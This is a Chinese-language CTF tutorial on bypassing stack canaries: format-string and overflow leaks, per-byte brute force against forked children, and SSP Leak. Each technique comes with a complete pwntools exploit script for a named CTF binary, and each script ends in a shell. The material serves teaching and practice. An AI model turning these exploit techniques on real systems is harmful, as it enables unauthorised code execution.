# stack canary与绕过思路

## canary

通常栈溢出的利用方式是通过溢出存在于栈上的局部变量，从而让多出来的数据覆盖ebp、eip等，从而达到劫持控制流的目的。然而stack canary这一技术的应用使得这种利用手段变得难以实现。canary的意思是金丝雀，来源于英国矿井工人用来探查井下气体是否有毒的金丝雀笼子。工人们每次下井都会带上一只金丝雀如果井下的气体有毒，金丝雀由于对毒性敏感就会停止鸣叫甚至死亡，从而使工人们得到预警。这个概念应用在栈保护上则是在初始化一个栈帧时在栈底设置一个随机的canary值，栈帧销毁前测试该值是否“死掉”，即是否被改变，若被改变则说明栈溢出发生，程序走另一个流程结束，以免漏洞利用成功。
程序开启canary保护时，checksec时canary项会显示Canary found



在函数栈帧初始化时也会在栈上放置canary值并且在退出前验证




一旦触发栈溢出漏洞，除非能猜到canary值是什么，否则函数退出的时候必然会通过异或操作检测到canary被修改从而执行stack_chk_fail函数。因此，要么想办法获取到canary的值，要么就要防止触发stack_chk_fail，或者利用这个函数。

## 泄露canary

### 通过格式化字符串泄露canary

利用漏洞来泄露出canary的值，从而在栈溢出时在payload里加入canary以通过检查，例，`~/insomnihack CTF 2016-microwave/microwave`
程序开启了各种保护，但是还是存在两个漏洞即功能1的格式化字符串漏洞和功能2的栈溢出漏洞




main函数中使用fgets获取的输入被作为参数传递给func_msg，然后使用__printf_chk直接输出，存在格式化字符串漏洞，可以泄露内存,因为开启了FORTIFY保护，所以并不能通过%n修改任何内存，但是同样可以利用这个漏洞泄露内存。
密码硬编码在程序中：




功能2调用func_over,获取输入，可以产生栈溢出




调试可以发现格式化字符串可以泄露libc的地址




而且泄露出来的第6个数据为canary的值



所以可以构造脚本泄露地址计算`one gadget RCE`的地址

```python
    p = process('./microwave')
    p.sendline('1')
    p.recvuntil('username: ')
    p.sendline('%p.'*8)
    p.recvuntil('password: ')
    p.sendline('n07_7h3_fl46')
    leak_data = p.recvuntil("Twitter account").split()[1].split('.')    # 收到的内容应该为Checking 0x7f1ced485780.0x7f1ced1b62c0.0x7f1ced68f700.0xa.(nil).0x266f732ee9fbe900.0x7f1ced484708.0x7f1ced484710，第一个split(默认参数为空格)将接收到的数据分为两部分，取第二部分即泄露出的数据再通过split将数据放到list里面去
    libc_addr = int(leak_data[7],16) - 0x3C5710 # stdin ,减去libc中的偏移即得到libc的加载地址
    # libc_addr = int(leak_data[6],16) - 0x3C5708   # stdout
    one_gadget_addr = libc_addr + 0x45216
    canary = int(leak_data[5],16)
    log.info("canary = %#x, one_gadget RCE = %#x,"%(canary, one_gadget_addr))
```

调试可以发现canary的值刚好在rsp+0x418-0x10处，而read的输入从rsp开始



根据汇编代码可以知道函数func_over的栈帧在canary值正确的情况下通过`add rsp,418h`销毁，所以溢出的偏移量为0x418，据此有

```python
from pwn import *

p = process('./microwave')
p.sendline('1')
p.recvuntil('username: ')
p.sendline('%p.'*8)
p.recvuntil('password: ')
p.sendline('n07_7h3_fl46')
leak_data = p.recvuntil("Twitter account").split()[1].split('.')
libc_addr = int(leak_data[7],16) - 0x3C5710
one_gadget_addr = libc_addr + 0x45216
canary = int(leak_data[5],16)
log.info("canary = %#x, one_gadget RCE = %#x,"%(canary, one_gadget_addr))

payload = 'A'*(0x418-0x10)  # 填充到canary处
payload += p64(canary)
payload += 'B'*8
payload += p64(one_gadget_addr)

p.sendline('2')
p.recvuntil('#> ')
p.send(payload)
sleep(0.5)
p.interactive()
```



### 通过栈溢出泄露canary

当程序没有格式化字符串漏洞时，就可以通过栈溢出泄露canary，例`~/CSAW Quals CTF 2017-scv/scv`
C++写成的64位ELF程序，所以IDA F5插件看起来有点混乱，但是很显然还是能看出来主要的功能的，功能1，read函数读取输入到buf（存在栈溢出）；功能2，puts函数（puts函数有0截断）将buf输出；功能3，退出。




调试可以发现程序存在栈溢出，但是只要选择3，即退出程序时才会触发溢出。因为功能2会将输入输出，所以可以通过溢出的字符串拼接到canary的值，将canary的值输出（canary低8为为0x00,puts有0截断，所以输入的字符需将canary低8位覆盖）
通过查看汇编代码可以发现buf到canary的偏移为`0xb0-0x8=0xa8`,因为需要覆盖canary的低8位，所以这里构造字符长度为`0xa8+0x1=0xa9`




构造脚本泄露canary值

```python
    p = process('./scv')

    print p.recv()

    payload1 = 'A'*0xA8 + 'B'
    p.sendline('1')
    p.send(payload1)
    p.sendline('2')
    p.recvuntil("B")
    canary = u64('\x00'+p.recv(7))   # 低8位被覆盖为B，需还原为\x00,（小端）
    log.info('canary = %#x',canary)
```



接着通过leak的canary过掉canary保护并开启shell

```python
    from pwn import *
    p = process('./scv')
    print p.recv()

    payload1 = 'A'*0xa8 + 'B'
    p.sendline('1')
    p.send(payload1)
    sleep(1)
    p.sendline('2')
    p.recvuntil("B")
    canary = u64('\x00'+p.recv(7))
    log.info('canary = %#x',canary)

    p.recv()

    elf = ELF('./scv')
    puts_plt = elf.symbols['puts']
    read_got = elf.got['read']
    log.info("puts_plt = %#x, read_got = %#x"%(puts_plt,read_got))
    pop_rdi = 0x400ea3
    start = 0x4009A0

    payload2 = 'A'*0xa8
    payload2 += p64(canary)
    payload2 += 'B'*8
    payload2 += p64(pop_rdi)
    payload2 += p64(read_got)
    payload2 += p64(puts_plt)
    payload2 += p64(start)

    p.sendline('1')
    p.send(payload2)
    sleep(1)
    p.sendline('3')
    p.recvuntil('BYE ~ TIME TO MINE MIENRALS...\n')
    read_addr = u64(p.recv(6)+'\x00\x00')
    one_gadget_addr = read_addr -(0xF7250 - 0x45216)
    log.info("read_addr = %#x, one_gadget_addr = %#x"%(read_addr,one_gadget_addr))

    p.sendline('1')
    payload3 = 'A'*0xa8
    payload3 += p64(canary)
    payload3 += 'B'*8
    payload3 += p64(one_gadget_addr)
    p.send(payload3)
    p.recv()
    p.sendline('3')
    p.recv()
    p.interactive()
```



## 多进程程序的canary爆破

canary之所以被认为是安全的，是因为对其进行爆破成功率太低。以32为例，除去最后一个\x00，其可能值将会是0x100^3=16777216（实际上由于canary的生成规则会小于这个值），64位下的canary值更是远大于这个数量级。此外，一旦canary爆破失败，程序就会立即结束，canary值也会再次更新，使得爆破更加困难。但是，由于同一个进程内所有的canary值都是一致的，当程序有多个进程，且子进程内出现了栈溢出时，由于子进程崩溃不会影响到主进程，我们就可以进行爆破。甚至我们可以通过逐位爆破来减少爆破时间。
例，`~/NSCTF 2017-pwn2/pwn2`



main函数有一个简单的判断，输入Y后会fork一个子进程出来，子进程执行函数sub_80487FA，在这个函数中存在一个格式化字符串漏洞和一个栈溢出漏洞。



### 爆破canary

root下调试程序，attach子进程。按照attach下断点的规矩，在输入的后面，即在地址0x080487b8上下个断点，然后在shell中运行程序。根据程序的流程，输入Y之后这个进程就会fork一个子进程，此时使用IDA attach到进程ID号较大的一项(子进程的ID比父进程大)调试子进程




脚本爆破canary了。我们爆破的思想是逐位爆破，即在padding之后每次修改一位canary字节。显然，这个范围就缩小到了0x00-0xFF共256个字节。一旦这个字节猜对了，canary就等于是没有被改变过，于是程序成功通过检测。调试可以发现，当canary猜错时只有一个`Do you love me?[Y]`，而不是猜对的两个



```python
    canary = '\x00' # 先确定canary低8位
    for i in range(3):  # canary最低位为\x00,32为程序，所以只需要爆破3个字符位即三次0x00~0xFF
        for j in range(256):
            p.sendline('Y')
            p.recv()
            p.sendline('%19$p') # 泄露栈上的libc地址
            p.recvuntil('game')
            leak_libc_addr = int(p.recv(11),16) # 泄露出来的地址是10个字符长度(16进制数)

            p.recv()
            payload = 'A'*16    # 字符覆盖到canary处
            payload += canary   # 将已知的和已经爆破出来的canary值覆盖的相应的位置
            payload += chr(j)   # 爆破一个字符位的值
            p.send(payload)
            p.recv()
            if("***" != p.recv(3)):  # 如果canary的字节位爆破正确，应该输出两个" Do you love me?",如果字节位出错，那么则会先先输出 *** stack smashing detected ***
                canary += chr(j)    # 小端，低位字节在前
                log.info('At round %d find canary byte %#x' %(i, j))
                break
    log.info('Canary is %#x' %(u32(canary)))
    elf = ELF('/lib/i386-linux-gnu/libc.so.6')
    system_offset = elf.symbols['system']
    binsh_offset = next(elf.search('/bin/sh'))
    system_addr = leak_libc_addr - 0x2EBF0 - 0x1B + system_offset
    binsh_addr = leak_libc_addr - 0x2EBF0 - 0x1B + binsh_offset
    log.info('System address is at %#x, /bin/sh address is at %#x' %(system_addr, binsh_addr))
```



爆破canary成功之后就可以getshell了

```python
    from pwn import *

    p = process('../Desktop/pwn2')
    conut = 0
    while True:
        conut += 1
        canary = '\x00'
        print '[+] Starting...'
        for i in xrange(1,4):
            flag = i
            for j in xrange(0,256):
                p.sendline('Y')
                p.recv()
                p.sendline('%19$p')
                p.recvuntil('Welcome to the game')
                leak_libc_addr = int(p.recv(11),16)
                p.recv()
                payload = 'A'*16
                payload += canary
                payload += chr(j)
                p.send(payload)
                if("***" != p.recv(3)):
                    canary += chr(j)
                    flag = 0
                    log.info('Find the %dth byte of canary : %#x'%(4-i,j))
                    break
            if flag == i:
                print "[-] Exploit failed"
                break
    log.info('Canary is %#x' %(u32(canary)))
    elf = ELF('/lib/i386-linux-gnu/libc.so.6')
    system_offset = elf.symbols['system']
    binsh_offset = next(elf.search('/bin/sh'))
    system_addr = leak_libc_addr - 0x2EBF0 - 0x1B + system_offset
    binsh_addr = leak_libc_addr - 0x2EBF0 - 0x1B + binsh_offset
    log.info('System address is at %#x, /bin/sh address is at %#x' %(system_addr, binsh_addr))


    payload = 'A'*16
    payload += canary
    payload += 'B'*12
    payload += p32(system_addr)
    payload += p32(0x08048670)
    payload += p32(binsh_addr)

    p.sendline('Y') # [*] Do you love me?
    p.recv()
    p.sendline('A') # [*] Input Your name please:
    p.recv()
    p.send(payload) # [*] Input Your Id:
    sleep(3)
    p.interactive()
```

### 通过格式化字符串漏洞泄露canary



通过%p同时泄露libc和canary

```python
from pwn import *

p = process('../Desktop/pwn2')
p.sendline('Y')
p.recv()
p.sendline('%11$p') # canary和libc需要分两次泄露，一次泄露的话需要输入19个`%p.`，显然会造成栈溢出
p.recvuntil('game')
canary = int(p.recv(11),16)
log.info('canary = %#x',canary)

p.send('A')
p.sendline('Y')
p.recv()
p.sendline('%19$p')
p.recvuntil('game')
leak_libc_addr = int(p.recv(11),16)
log.info('leak_libc_addr = %#x',leak_libc_addr)

elf = ELF('../Desktop/libc.so.6_x86')
system_offset = elf.symbols['system']
binsh_offset = next(elf.search('/bin/sh'))
system_addr = leak_libc_addr - 0x2EBF0 - 0x1B + system_offset
binsh_addr = leak_libc_addr - 0x2EBF0 - 0x1B + binsh_offset
log.info('System address is at %#x, /bin/sh address is at %#x' %(system_addr, binsh_addr))

payload = 'A'*16
payload += p32(canary)
payload += 'B'*12
payload += p32(system_addr)
payload += p32(0x08048670)
payload += p32(binsh_addr)

p.recvuntil('[*] Input Your Id:')
p.send(payload)
sleep(1)
p.interactive()
```



## SSP Leak

除了通过各种方法泄露canary之外，还有一个可选项——利用`__stack_chk_fail`函数泄露信息。这种方法作用不大，没办法getshell。但是需要泄露的flag或者其他东西存在于内存中时,可能可以使用一个栈溢出漏洞来把它们泄露出来。这个方法叫做`SSP(Stack Smashing Protect) Leak.`
canary起作用到程序退出的流程：首先，canary被检测到修改，函数不会经过正常的流程结束栈帧并继续执行接下来的代码，而是跳转到`call __stack_chk_fail`处，然后执行完这个函数，程序退出，屏幕上留下一行
`*** stack smashing detected ***:[XXX] terminated`。这里的`[XXX]`是程序的名字。很显然，这行字不可能凭空产生，肯定是`__stack_chk_fail`打印出来的。而且，程序的名字一定是个来自外部的变量（毕竟ELF格式里面可没有保存程序名）。既然是个来自外部的变量，就有修改的余地。
`__stack_chk_fail`的源码如下：

```c++
    void __attribute__ ((noreturn)) __stack_chk_fail (void)
    {
    __fortify_fail ("stack smashing detected");
    }
    void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
    {
    /* The loop is added only to keep gcc happy.  */
    while (1)
        __libc_message (2, "*** %s ***: %s terminated\n",
                        msg, __libc_argv[0] ?: "<unknown>");
    }
```

可以看到`__libc_message`一行输出了`*** %s ***: %s terminated\n`。这里的参数分别是msg和`__libc_argv[0]`。`char *argv[]`是main函数的参数，`argv[0]`存储的就是程序名，且这个`argv[0]`就存在于栈上。所以SSP leak就是通过修改栈上的`argv[0]`指针，从而让`__stack_chk_fail`被触发后输出我们想要知道的东西。
例，`~/RedHat 2017-pwn5/pwn5`

```c++
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
    FILE *v3; // ST1C_4

    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
    v3 = fopen("/root/flag.txt", "r");
    fread(flag, 1u, 0x32u, v3);
    vul();
    return 1;
    }
```

程序会把flag读取到一块名为flag的全局变量中，然后调用vul函数。

```C++
    signed int vul()
    {
    char s; // [esp+10h] [ebp-48h]
    unsigned int v2; // [esp+4Ch] [ebp-Ch]

    v2 = __readgsdword(0x14u);
    puts("input something");
    gets(&s);
    if ( !strcmp(&s, flag) )
        printf("WellDone!", flag);
    return 1;
    }
```

vul函数存在一个栈溢出漏洞，且题目除了栈溢出没有用其他的漏洞利用方法，而程序开启了canary保护。但是，flag在内存中的位置是固定的，就可以使用`SSP Leak`。



接下来需要指定`argv[0]`在哪，调试程序将eip指向0x8048670，进入到`__stack_chk_fail`(或者修改edx寄存器使程序进入)
F7跟进到此处



这一段代码实际上是处理符号绑定的代码，选中retn 0Ch一行后F4，然后F7就到了`__stack_chk_fail`



`call near ptr`一行其实并没有什么有用的代码，真正的主体部分在call `__fortify_fail`，F7跟进

